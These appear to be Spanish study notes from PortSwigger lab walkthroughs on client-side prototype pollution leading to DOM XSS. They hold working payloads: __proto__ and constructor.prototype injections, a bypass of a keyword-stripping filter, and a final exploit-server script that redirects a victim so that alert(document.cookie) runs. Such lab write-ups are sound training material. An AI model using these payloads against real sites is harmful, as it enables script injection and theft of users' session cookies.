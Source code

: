 ### LAB: DOM XSS Vía Client Side Prototype Pollution 

* Propiedad encontrada: `transport_url` 
* identify sink: script.src = config.transport_url;

```js
ID-LAB.net/?__proto__[transport_url]=data:,alert(1);//
```

### LAB: DOM XSS Vía Alternative Prototype pollution Vector

* Importante: siempre ver el inspector>depurador para analizar los files `JS`que hayan, pueden darnos la base de nuestro ataque. 

```js
?__proto__.sequence=alert(1)-
?constructor.prototype.sequence=alert(1)-
//DE LAS DOS FORMAS FUNCIONó. 
```

### LAB: Prototype Pollution Via flawed sanitization

* Una función pobre que intenta prohibir palabras como `constructor, prototype, __proto__` - ingenuos. 

```js
/?__pro__proto__to__[foo]=bar //funciono, test inicial.

/?__pro__proto__to__[transport_url]=data:,alert(1);//
```

### LAB: DOM XSS Prototype Pollution in third party libraries `cookie`

* Un objetivo es vulnerable a DOM XSS a través de la contaminación de prototipos del lado del cliente. **DOM Invader** identificará el gadget y utilizando una carga útil alojada para realizar phishing dirigido a la víctima y robar su **cookie**.
![[Pasted image 20250219190855.png]]

Además de ello toca en la sección >Attack Types activar la opción que dice “Protoype Pollution is on” para que de está forma empiece a buscar en el código, si muchas veces se usa codigo e terceros posiblemente puede estar ofuscado o minificado el cual es dificil de entender a ojo, por lo cual con esta extensión posiblemente podemos ahorrarnos un tiempo extra el cual me sirve para cuando esté haciendo el BSCP.

![[Pasted image 20250219190937.png]]

* Dom invader hace su magia, le damos >scan  for gadgets, encontramos el `hitCallback` propiedad, lo explotamos y listo. 

```js
/feedback#__proto__[hitCallback]=alert%281%29
//o para testear: 
/feedback#__proto__[foo]=bar
//y en consola ponemos Object.prototype si nos arroja el foo:"bar", sabemos que
//efectivamente se hizo la contaminacion del prototipo clave:valor foo:bar

//PAYLOAD FINAL - En exploit SERVER: 
<script>
	location="https://ID-LAB.web-security-academy.net/feedback#__proto__[hitCallback]=alert%28document.cookie%29"
</script>
//store & deliver exploit to victimc
//Revisar en los logs del server. 
```
